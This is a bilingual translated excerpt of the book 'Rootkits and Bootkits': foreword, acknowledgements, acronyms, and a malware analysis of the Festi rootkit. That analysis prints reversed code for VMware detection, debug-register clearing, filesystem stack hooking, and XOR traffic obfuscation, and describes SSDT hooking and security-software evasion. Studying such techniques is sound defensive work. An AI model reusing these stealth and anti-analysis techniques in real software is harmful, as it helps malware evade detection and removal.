# Rootkits and bootkits：逆向现代恶意软件和下一代威胁



**by Alex Matrosov, Eugene Rodionov, and Sergey Bratus**


**Alex Matrosov** is a leading offensive security researcher at NVIDIA. He has more than two decades of experience with reverse engineering, advanced malware analysis, firmware security, and exploitation techniques. Before joining NVIDIA, Alex served as Principal Security Researcher at Intel Security Center of Excellence (SeCoE), spent more than six years in the Intel Advanced Threat Research team, and was Senior Security Researcher at ESET. Alex has authored and co-authored numerous research papers and is a frequent speaker at security conferences, including REcon, ZeroNights, Black Hat, DEFCON, and others. Alex received an award from Hex-Rays for his open source plug-in HexRaysCodeXplorer, supported since 2013 by the team at REhint.

**Eugene Rodionov**, PhD, is a Security Researcher at Intel working in BIOS security for Client Platforms. Before that, Rodionov ran internal research projects and performed in-depth analysis of complex threats at ESET. His fields of interest include firmware security, kernel-mode programming, anti-rootkit technologies, and reverse engineering. Rodionov has spoken at security conferences, such as Black Hat, REcon, ZeroNights, and CARO, and has co-authored numerous research papers.

**Sergey Bratus** is a Research Associate Professor in the Computer Science Department at Dartmouth College. He has previously worked at BBN Technologies on Natural Language Processing research. Bratus is interested in all aspects of Unix security, in particular Linux kernel security, and detection and reverse engineering of Linux malware.

**Rodrigo Rubira Branco** (BSDaemon) works as Chief Security Researcher at Intel Corporation where he leads the STORM (Strategic Offensive Research and Mitigations) team. Rodrigo released dozens of vulnerabilities in many important technologies and published innovative research in exploitation, reverse engineering, and malware analysis. He is a member of the RISE Security Group and is one of the organizers of the Hackers to Hackers Conference (H2HC), the oldest security research conference in Latin America.

不可否认的是，恶意软件对计算机安全构成日益严重的威胁。我们在各处看到令人震惊的统计数据，展示了恶意软件的财务影响、复杂度以及恶意样本数量的不断增加。越来越多的安全研究人员，无论是工业界还是学术界，都在研究恶意软件并在这些领域发布研究成果，从博客和行业会议到学术场所和专门的书籍。这些出版物涵盖了各种角度：反向工程、最佳实践、方法论以及最先进的工具集。

因此，关于恶意软件分析和自动化工具的讨论已经在进行，并且每天都有更多讨论。你可能会想：为什么还要再写一本关于该主题的书？这本书有什么独特之处，其他书没有？

首先，这本书专注于高级（即*创新*）恶意软件的反向工程，但它涵盖了该代码之所以能够存在的所有基础知识。本书解释了受影响的各个组件的内部工作原理——从系统启动、操作系统加载到各个内核组件，再到应用层操作，这些操作再次回落到内核。

我曾多次解释，基础覆盖范围并不等同于基础——虽然它必须延伸到底层，但其本质是计算的基石。按此衡量，这本书的内容不只是关于恶意软件，更是对计算机如何工作、现代软件栈如何利用基础硬件能力和用户界面的讨论。一旦你掌握这些，你就会*自动*理解系统为何出错以及如何被滥用。

谁比作者更适合提供这种指导？作者们多次揭示了真正高级的恶意代码，这些代码不断推动领域的前沿。加之，他们费力而详尽地将这些经验回溯到计算机基础和更大图景——例如如何分析和理解具有相似概念特征的不同问题——这使得本书理所当然地成为阅读清单的首选。

如果所选的内容和方法论足以证明本书的必要性，下一个问题是：为什么在此之前没有人着手写这本书？我亲眼见证（并有幸参与并希望贡献）这本书的演变过程，它历时多年、持续不断的努力，即便在作者已有大量原始材料的情况下。通过这段经历，我清楚地认识到为何其他人未曾尝试：这不仅困难，还需要独特的技能组合（而作者们显然具备），以及编辑的大力支持（No Starch Press 耐心完成编辑并容忍因攻击安全工作性质而导致的项目延期），最后，早期访问读者的热情也为完成这部作品提供了关键动力。

本书的重点在于构建对现代计算机中信任（或不信任）是如何实现的理解，以及不同层级和它们之间的转换如何被滥用以破坏下一层所依赖的假设。这以独特的方式凸显了实现安全的两大主要问题：组合（多层依赖彼此正确行为才能正常工作）和假设（层之间必须假设前一层行为正确）。作者们还分享了他们在分析早期启动组件和操作系统更深层的工具和方法，这种跨层方法本身就值得一本独立的书，使本书成为“一本在一本之中”。作为读者，我热爱这种“一举双得”的模式—— few authors offer such a deal to their readers.

关于知识本质的我的信念是：如果你真正懂得某事，你就能“破解”它。利用逆向工程了解能够改变系统常规行为的代码，是一种令人惊叹的技术成就，往往能揭示大量知识。能够从拥有成功记录的专业人士那里学习并亲自跟随他们的方法、建议和整体专业知识，是一个独特的机会。不要错过！深入钻研；利用辅助材料；实践；参与社区、朋友，甚至教授（希望他们看到本书在课堂中的价值）。本书不仅适合阅读，更是一本值得学习的书。

Rodrigo Rubira Branco  

(BSDaemon)

## 致谢

我们要向所有购买本书早期版本的读者致谢。他们的持续支持极大地激励了我们，若没有它，这本书永远不会完成。感谢大家耐心等待这份最终发布！

我们要感谢在本书最初阶段提供支持的以下人士：David Harley、Juraj Malcho、Jacub Debski。

在我们五年致力于本书的期间，No Starch Press 的员工们帮助我们的工作远超寥寥可数，我们特别感谢 Bill Pollock（他的耐心和对质量的关注），以及 Liz Chadwick 和 Laurel Chun（如果没有她们的帮助，本书将会大不相同）。

我们衷心感谢收到的所有反馈： Alexandre Gazet、Bruce Dang、Nikolaj Schlej、Zeno Kovah、Alex Tereshkin 以及所有早期访问读者的评论。感谢你们指出的所有错别字和错误，以及提供的建议和鼓励。

特别感谢 Rodrigo Rubira Branco (BSDaemon) 的杰出支持、技术审查以及本书的前言。

我们还要感谢 Ilfak Gulfanov 与 Hex‑Rays 团队的支持以及用于分析文中威胁的出色工具。

我要感谢我的妻子 Svetlana，她的支持以及在我大部分时间都在研究时的耐心。

*Alex Matrosov*

我想向我的家人致以衷心的感谢：我的妻子 Evgeniya，以及我的儿子 Oleg 和 Leon，他们提供了支持、灵感和理解。

*Eugene Rodionov*

我对能够为本书作出 modest contributions 的众多人表示感激：Phrack 和 Uninformed 的作者与编辑、Phenoelit 和 THC 的研究人员、以及 Recon、PH‑Neutral、Toorcon、Troopers、Day‑Con、Shmoocon、Rubi‑Con、Berlinsides、H2HC、Sec‑T、DEFCON 等组织及其 crew 的组织者和成员。特别感谢 William Polk，他表明黑客方法超越了电脑，如果没有他的帮助，我多年无法亲自工作或旅行。当然，这一切离不开妻子 Anna 的爱、耐心和支持。

*Sergey Bratus*

## 缩写

| 缩写 | 全称 |
| --- | --- |
| AES | Advanced Encryption Standard |
| ACM | Authenticated Code Module |
| ACPI | Advanced Configuration and Power Interface |
| AMT | Active Management Technology |
| APC | asynchronous procedure call |
| APIC | Advanced Programmable Interrupt Controller |
| ARM | Advanced RISC Machine |
| ATA | Advanced Technology Attachment |
| BCD | Boot Configuration Data |
| BDS | Boot Device Selection |
| BIOS | Basic Input/Output System |
| BMC | Baseboard Management Controller |
| BPB | BIOS Parameter Block |
| BPM | boot policy manifest |
| BSI | boot sector infector |
| BSoD | Blue Screen of Death |
| C&C | command and control |
| CBC | cipher block chaining |
| CDO | control device object |
| CHS | Cylinder Head Sector |
| CLR | Common Language Runtime |
| COFF | Common Object File Format |
| COM | Component Object Model |
| CSM | Compatibility Support Module |
| DBR | DOS Boot Record |
| DDoS | distributed denial of service |
| DGA | domain name generation algorithm |
| DKOM | Direct Kernel Object Manipulation |
| DLL | dynamic-link library |
| DMA | direct memory access |
| DRAM | dynamic random access memory |
| DRM | digital rights management |
| DXE | Driver Execution Environment |
| EC | Embedded Controller |
| ECB | Electronic Code Book |
| ECC | Elliptic Curve Cryptography |
| EDK | EFI Development Kit |
| EDR | Endpoint Detection and Response |
| EFI | Extensible Firmware Interface |
| ELAM | Early Launch Anti-Malware |
| ELF | Executable and Linkable Format/Extensible Linking Format |
| EPT | Extended Page Tables |
| FEK | file encryption key |
| FFS | firmware filesystem |
| FIT | Firmware Interface Table |
| FPF | field-programmable fuse |
| GDB | GNU Debugger |
| GDT | Global Descriptor Table |
| GPT | GUID Partition Table |
| GUID | global unique identifier |
| HAL | hardware abstraction layer |
| HBA | host-based architecture |
| HECI | Host-Embedded Controller Interface |
| HIPS | Host Intrusion Prevention System |
| HSFC | Hardware sequencing flash control |
| HSFS | hardware sequencing flash status |
| HVCI | Hypervisor-Enforced Code Integrity |
| IBB | initial boot block |
| IDT | Interrupt Descriptor Table |
| IOCTL | Input/Output Control |
| IPL | Initial Program Loader |
| IRP | input/output request packet |
| ISH | Integrated Sensor Hub |
| IV | initialization value |
| IVT | Interrupt Vector Table |
| KEK | key exchange key |
| KM | key manifest |
| KPP | Kernel Patch Protection |
| LBA | logical block address |
| LPE | local privilege escalation |
| MBR | Master Boot Record |
| ME | Management Engine |
| MFT | master file table |
| MIPS | millions of instructions per second |
| MSR | model-specific register |
| NDIS | Network Driver Interface Specification |
| NVRAM | nonvolatile random access memory |
| NX | no-execute |
| OEM | original equipment manufacturer |
| OSI | Open Systems Interconnection |
| PCH | Platform Controller Hub |
| PCR | Platform Configuration Register |
| PDO | physical device object |
| PE | Portable Executable |
| PEI | Pre-EFI Initialization |
| PI | platform initialization |
| PIC | position-independent code |
| PK | platform key |
| PKI | public key infrastructure |
| PMU | Power Management Unit |
| PnP | plug and play |


| 缩写 | 全称 |
| :--- | :--- |
| PoC | proof of concept |
| POST | Power-On Self-Test |
| PPI | Pay-Per-Install |
| RCBA | Root Complex Base Address |
| RCRB | Root Complex Register Block |
| ROP | return-oriented programming |
| RVI | Rapid Virtualization Indexing |
| SGX | Software Guard Extensions |
| SLAT | Second Level Address Translation |
| SMC | System Management Controller |
| SMI | System Management Interrupt |
| SMM | System Management Mode |
| SMRAM | system management random access memory |
| SPC | Software Publisher Certificate |
| SPI | Serial Peripheral Interface |
| SPIBAR | SPI Base Address Register |
| SSDT | System Service Descriptor Table |
| TBB | Trusted Boot Board |
| TDI | Transport Driver Interface |
| TE | Terse Executable |
| TPM | Trusted Platform Module |
| TSA | Time Stamping Authority |
| UAC | User Account Control |
| UEFI | Unified Extensible Firmware Interface |
| UID | unique identifier |
| VBR | Volume Boot Record |
| VBS | virtualization-based security |
| VDO | volume device object |
| VFAT | Virtual File Allocation Table |
| VFS | Virtual File System |
| VM | virtual machine |
| VMM | virtual machine manager |
| VSM | Virtual Secure Mode |
| WDK | Windows Driver Kit |
| WHQL | Windows Hardware Quality Labs |
| WMI | Windows Management Instrumentation |

```c
`PVOID` `Reserved_1`;
`PVOID` `Reserved_2`;
};
```

*Listing 2-1: 定义 `PLUGIN_INTERFACE` 结构体*

前两个例程 `Initialize` 和 `Release` 分别用于插件的初始化和终止。随后两个例程 `GetVersionInfo_1` 和 `GetVersionInfo_2` 用于获取当前插件的版本信息。

`WriteIntoTcpStream` 和 `ReadFromTcpStream` 例程用于插件与 C&C 服务器之间的数据交换。当 Festi 向 C&C 服务器发送数据时，会遍历已注册插件接口的指针数组，并执行每个插件的 `WriteIntoTcpStream` 例程，向参数中传入指向 TCP 流对象的指针。该 TCP 流对象实现网络通信接口的功能。

在从 C&C 服务器接收到数据后，Bot 会执行插件的 `ReadFromTcpStream` 例程，以便已加载的插件能够从网络流中获取参数和插件特定的配置信息。因此，每个已加载的插件都可以独立于其他插件与 C&C 服务器通信，这意味着插件可以独立开发，提高开发效率并增强架构稳定性。

#### 内置插件

安装完成后，主恶意内核模式驱动实现了两个内置插件：配置信息管理器和 Bot 插件管理器。

##### 配置信息管理器

配置信息管理器插件负责向 C&C 服务器请求配置信息并下载插件。该插件会定期向 C&C 服务器发起请求以获取数据。两次请求之间的延迟由 C&C 服务器自行指定，通常是为了避免安全软件通过静态模式检测感染痕迹。我们在“Festi 网络通信协议”的第 26 页（page 26）描述了 Bot 与 C&C 服务器之间的网络通信协议。

##### Bot 插件管理器

Bot 插件管理器负责维护已下载插件的数组。它会从 C&C 服务器接收远程命令，并加载或卸载以压缩形式交付的特定插件。每个插件都有一个默认入口点 — `DriverEntry` — 并导出 `CreateModule` 和 `DeleteModule` 两个例程，如图 2-6 所示。



*图 2-6：Festi 插件的导出地址表*

`CreateModule` 例程在插件初始化时执行，返回指向 `PLUGIN_INTERFACE` 结构体的指针，如 Listing 2-1 所述。它接受的参数是主模块提供的若干接口指针，例如内存管理器和网络接口。

`DeleteModule` 例程在插件卸载时执行，释放之前分配的所有资源。图 2-7 展示了插件管理器加载插件的算法。



*图 2-7：插件管理器算法*

恶意代码首先将插件解压到内存缓冲区，然后将其映射到内核模式地址空间作为 PE 映像。插件管理器会初始化导入地址表（`IAT`）并将其重定位到映射后的映像中。在此算法中，Festi 还模拟了操作系统典型的运行时加载器和 OS 模块动态链接器的行为。

根据插件的加载或卸载操作，插件管理器会执行 `CreateModule` 或 `DeleteModule` 例程。如果是加载，管理器会获取插件的 ID 与版本信息，然后将其注册到 `PLUGIN_INTERFACE` 结构体中。

如果是卸载，恶意代码会释放之前为插件映像分配的所有内存。

#### 反虚拟机技术

Festi 具备检测是否在 VMware 虚拟机中运行的技术，以规避沙箱和自动化恶意样本分析环境。它会通过 Listing 2-2 中的代码尝试获取已安装的 VMware 软件版本。

```asm
mov eax, 'VMXh'
mov ebx, 0
mov ecx, 0Ah
mov edx, 'VX'
in eax, dx
```

*Listing 2-2：获取 VMware 软件版本*

Festi 检查 `ebx` 寄存器的值，若为 `VMX` 则表示代码正在虚拟机环境中执行；若为 `0` 则表示未在虚拟机中运行。

有趣的是，如果 Festi 检测到虚拟环境，它不会立即终止执行，而是继续像在物理机上一样工作。当恶意代码向 C&C 服务器请求插件时，它会提交一些表明当前环境是否为虚拟的信息；若是虚拟环境，C&C 服务器可能不会返回任何插件。

这很可能是一种规避动态分析的手段：Festi 不会在检测到沙箱后立即停止与 C&C 通信，而是试图欺骗自动分析系统，让其误以为 Festi 未发现被监控，而 C&C 服务器则意识到被监控并不提供任何命令或插件。常见的恶意样本行为是一旦检测到调试器或沙箱环境就立即终止，以免泄露配置信息和负载模块。

然而，安全研究人员已经敏锐地注意到这种行为：如果恶意样本在检测到沙箱后迅速退出且没有执行任何恶意活动，分析人员会更加关注其背后的原因，进而深入分析并发现其隐藏的数据和代码。为规避这种后果，Festi 在检测到沙箱时不会立即终止执行，但会指示其 C&C 不向沙箱提供恶意模块和配置数据。

Festi 还会检测系统中是否存在网络流量监控软件，这可能暗示恶意样本已在分析监控环境中运行。它会查找内核模式驱动 `npf.sys`（网络数据包过滤器），该驱动属于 Windows 数据链路层捕获库 WinPcap，常被像 Wireshark 等网络监控工具用于获取数据链路层信息。`npf.sys` 的存在表明系统已安装网络监控工具，因此在此类系统上运行该恶意样本是不安全的。

**WINPCAP**

*Windows 数据包捕获库*（WinPcap）允许应用程序捕获并发送网络数据包，绕过协议栈。它提供内核级网络数据包过滤和监控功能。WinPcap 被许多开源和商业网络工具广泛用作过滤引擎，包括协议分析仪、网络监视器、入侵检测系统、嗅探器，以及诸如 Wireshark、Nmap、Snort 和 ntop 等广为人知的工具。

#### 反调试技术

Festi 还会通过检查操作系统内核导出的 `KdDebuggerEnabled` 变量来判断系统是否挂载了内核调试器。若系统已附加调试器，该变量的值为 `TRUE`；否则为 `FALSE`。

为对抗系统调试器，Festi 会定期清零调试寄存器 `dr0` 到 `dr3`。这些寄存器用于存储断点地址，清零它们会阻碍调试过程。清零调试寄存器的代码在 Listing 2-3 中给出。

```c
char _thiscall ProtoHandler_1(STRUCT_4_4 *this, PKEVENT a1)
{
    __writedr(0, 0); // `mov dr0, 0`
    __writedr(1u, 0); // `mov dr1, 0`
}
```


```c
__writedr(2u, 0); // mov dr2, 0

__writedr(3u, 0); // mov dr3, 0

return _ProtoHandler(&this->struct43, a1);

}
```

*Listing 2-3: Clearing debugging registers in Festi code*

The highlighted `writedr` instructions perform write operations on the debugging registers. As you can see, Festi writes zeros to these registers before executing the `_ProtoHandler` routine, which is responsible for handling the communication protocol between the malware and C&C servers.

#### The Method for Hiding the Malicious Driver on Disk

To protect and conceal the image of the malicious kernel-mode driver stored on the hard drive, Festi hooks the filesystem driver so that it can intercept and modify all requests sent to the filesystem driver to exclude evidence of its presence.

A simplified version of the routine for installing the hook is shown in Listing 2-4.

```c
NTSTATUS __stdcall SetHookOnSystemRoot(PDRIVER_OBJECT DriverObject,
                                       int **HookParams)
{
    RtlInitUnicodeString(&DestinationString, L"\\SystemRoot");
    ObjectAttributes.Length = 24;
    ObjectAttributes.RootDirectory = 0;
    ObjectAttributes.Attributes = 64;
    ObjectAttributes.ObjectName = &DestinationString;
    ObjectAttributes.SecurityDescriptor = 0;
    ObjectAttributes.SecurityQualityOfService = 0;

    // ➊
    NTSTATUS Status = IoCreateFile(&hSystemRoot, 0x80000000, &ObjectAttributes,
                                   &IoStatusBlock, 0, 0, 3u, 1u, 1u, 0, 0, 0, 0,
                                   0x100u);
    if (Status < 0)
        return Status;

    // ➋
    Status = ObReferenceObjectByHandle(hSystemRoot, 1u, 0, 0,
                                       &SystemRootFileObject, 0);
    if (Status < 0)
        return Status;

    // ➌
    PDEVICE_OBJECT TargetDevice = IoGetRelatedDeviceObject(SystemRootFileObject);
    if (!TargetDevice)
        return STATUS_UNSUCCESSFUL;

    ObfReferenceObject(TargetDevice);

    Status = IoCreateDevice(DriverObject, 0xCu, 0, TargetDevice->DeviceType,
                            TargetDevice->Characteristics, 0, &SourceDevice);
    if (Status < 0)
        return Status;

    // ➍
    PDEVICE_OBJECT DeviceAttachedTo = IoAttachDeviceToDeviceStack(SourceDevice,
                                                                  TargetDevice);
    if (!DeviceAttachedTo)
    {
        IoDeleteDevice(SourceDevice);
        return STATUS_UNSUCCESSFUL;
    }

    return STATUS_SUCCESS;
}
```

*Listing 2-4: Hooking the filesystem device driver stack*

The malware first tries to obtain a handle to the special system file `SystemRoot`, which corresponds to the Windows installation directory ➊. Then, by executing the `ObReferenceObjectByHandle` system routine ➋, Festi obtains a pointer to the `FILE_OBJECT` that corresponds to the handle for `SystemRoot`. The `FILE_OBJECT` is a special data structure used by the operating system to manage access to device objects and so contains a pointer to the related device object. In our case, since we opened a handle for `SystemRoot`, the `DEVICE_OBJECT` is related to the operating system filesystem driver. The malware obtains the pointer to the `DEVICE_OBJECT` by executing the `IoGetRelatedDeviceObject` system routine ➌, then creates a new device object and attaches it to the acquired device object pointer by calling `IoAttachDeviceToDeviceStack` ➍, as shown in the layout of the filesystem device stack in Figure 2-8. Festi's malicious device object is located on top of the stack, meaning the I/O requests intended for the filesystem are rerouted to the malware. This allows Festi to conceal itself by altering request and return data to and from the filesystem driver.



*Figure 2-8: Layout of the filesystem device stack hooked by Festi*

At the very bottom of Figure 2-8, you can see the filesystem driver object and the corresponding device object that handles OS filesystem requests. Some additional filesystem filters might be attached here too. Toward the top of the figure, you can see the Festi driver attached to the filesystem device stack.

This design uses and closely follows the Windows stacked I/O driver design, reproducing the design pattern of the native OS. By now, you probably see the trend: the rootkit aims to blend with the OS cleanly and reliably, emulating winning OS design patterns for its own modules. In fact, you can learn a lot about OS internals from analyzing aspects of rootkits, such as Festi's handling of input/output requests.

In Windows, a filesystem I/O request is represented as an `IRP`, which goes through the stack from top to bottom. Every driver in the stack can observe and modify the request or returned data. This means that, as shown in Figure 2-8, Festi can modify `IRP` requests addressed to the filesystem driver and any corresponding returned data.

Festi monitors the `IRPs` using the `IRP_MJ_DIRECTORY_CONTROL` request code, used to query the contents of the directory, watching for queries related to where the malware's kernel-mode driver is located. If it detects such a request, Festi modifies the returned data from the filesystem driver to exclude any entry corresponding to the malicious driver file.

#### The Method for Protecting the Festi Registry Key

Festi also hides a registry key corresponding to the registered kernel-mode driver using a similar method. Located in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`, the registry key contains Festi's driver type and the path to the driver's image on the filesystem. This makes it vulnerable to detection by security software, so Festi must hide the key.

To do so, Festi first hooks the `ZwEnumerateKey`, a system service that queries information on a specified registry key and returns all of its subkeys, by modifying the `System Service Descriptor Table (SSDT)`, a special data structure in the operating system kernel that contains addresses of the system service handlers. Festi replaces the address of the original `ZwEnumerateKey` handler with the address of the hook.

##### WINDOWS KERNEL PATCH PROTECTION

It's worth mentioning that this hooking approach—modifying `SSDT`—works only on 32-bit Microsoft Windows operating systems. As mentioned in Chapter 1, the 64-bit editions of Windows implement `Kernel Patch Protection` (also known as PatchGuard) technology to prevent software from patching certain system structures, including `SSDT`. If PatchGuard detects a modification of any of the monitored data structures, it crashes the system.

The `ZwEnumerateKey` hook monitors requests addressed to the `HKLM\System\CurrentControlSet\Service` registry key, which contains subkeys related to kernel-mode drivers installed on the system, including the Festi driver. Festi modifies the list of subkeys in the hook to exclude the entry corresponding to its driver. Any software that relies on `ZwEnumerateKey` to obtain the list of installed kernel-mode drivers will not notice the presence of Festi's malicious driver.

If the registry is discovered by security software and removed during shutdown, Festi is also capable of replacing the registry key. In this case, Festi first executes the system routine `IoRegisterShutdownNotification` in order to receive shutdown notifications when the system is turned off. It checks the shutdown notification handler to see if the malicious driver and the corresponding registry key are present in the system, and if they're not (that is, if they've been removed), it restores them, guaranteeing that it will persist through reboot.

### The Festi Network Communication Protocol

- 与 C&C 服务器通信并执行恶意活动时，Festi 使用了一个自定义的网络通信协议，该协议必须防止窃听。在我们对 Festi 僵尸网络的调查过程中，^([2)我们获得了它通信的 C&C 服务器列表，发现虽然有些服务器专注于发送垃圾邮件，有些则进行 DDoS 攻击，但两者都实现了同一个通信协议。Festi 通信协议包含两个阶段：初始化阶段，用于获取 C&C IP 地址；工作阶段，用于请求任务描述。

#### 初始化阶段

在初始化阶段，恶意软件从僵尸二进制文件中获取 C&C 服务器的 IP 地址，这些域名已被存储其中。有趣的是，恶意软件手动从域名解析出 C&C 服务器的 IP 地址。具体做法是构造一个 DNS 请求报文，用于解析 C&C 服务器域名，并将该报文发送到两个 Google DNS 服务器 `8.8.8.8` 或 `8.8.4.4` 的 53 端口。回复中，Festi 获得可以用于后续通信的 IP 地址。

手动解析域名使僵尸网络对清除尝试更具韧性。如果 Festi 依赖本地 ISP 的 DNS 服务器进行域名解析，运营商可能会通过修改 DNS 信息阻止访问 C&C 服务器（例如，执法机构发出禁令阻止特定域名）。但通过手动构造 DNS 请求并发送至 Google 服务器，恶意软件绕过了 ISP 的 DNS 基础设施，使清除更加困难。

#### 工作阶段

工作阶段是 Festi 向 C&C 服务器请求任务信息的过程。通信通过 TCP 协议进行。发送给 C&C 服务器的网络数据包请求结构（如图 2-9 所示）由消息头和插件特定数据数组组成。



*图 2-9：发送至 C&C 服务器的网络数据包布局*

消息头由配置管理插件生成，包含以下信息：

*   Festi 版本信息
*   是否存在系统调试器
*   是否存在虚拟化软件（VMWare）
*   是否存在网络流量监控软件（WinPcap）
*   操作系统版本信息

插件特定数据由一系列 `tag-value-term` 条目组成：

**Tag** 一个 16 位整数，指定后续值的类型  
**Value** 特定数据，可为字节、字、双字、以空字符终止的字符串或二进制数组  
**Term** 终止字，`0xABDC`，标识条目结束  

`tag-value-term` 方案为恶意软件提供了便捷的方式，将插件特定数据序列化为发送至 C&C 服务器的网络请求。

数据在发送前通过简单加密算法进行混淆。加密算法的 Python 实现如第 2-5 条所示。

```python
key = (0x17, 0xFB, 0x71, 0x5C)  # ➊

def decr_data(data):
    for ix in xrange(len(data)):
        data[ix] ^= key[ix % 4]
```

*第 2-5 条：网络加密算法的 Python 实现*

恶意软件使用固定 4 字节键的滚动异或算法。

### 绕过安全与取证软件

为在网络上与 C&C 服务器通信、发送垃圾邮件、进行 DDoS 攻击同时规避安全软件，Festi 依赖于在 Windows 内核模式下实现的 TCP/IP 栈。

发送和接收数据包时，恶意软件会根据协议类型打开 `\Device\Tcp` 或 `\Device\Udp` 设备的句柄，采用一种不引起安全软件注意的技巧获取句柄。在设计此技巧时，Festi 的作者再次展现了对 Windows 系统内部机制的卓越理解。

为控制主机的网络访问，部分安全软件通过拦截 `IRP_MJ_CREATE` 请求来监控对这些设备的访问，这些请求在有人尝试打开设备对象以进行网络通信时发送给传输驱动程序。这使得安全软件能够确定哪个进程在尝试通过网络通信。安全软件常用的监控方式包括：

*   捕获 `ZwCreateFile` 系统服务句柄，拦截所有尝试打开设备的请求
*   直接附加到 `\Device\Tcp` 或 `\Device\Udp`，拦截所有发送的 `IRP` 请求

Festi 巧妙规避了这两种监控手段，从而建立网络连接。

首先，Festi 不使用系统实现的 `ZwCreateFile` 系统服务，而是自行实现功能几乎相同的自定义系统服务。图 2-10 展示了自定义 `ZwCreateFile` 例程。

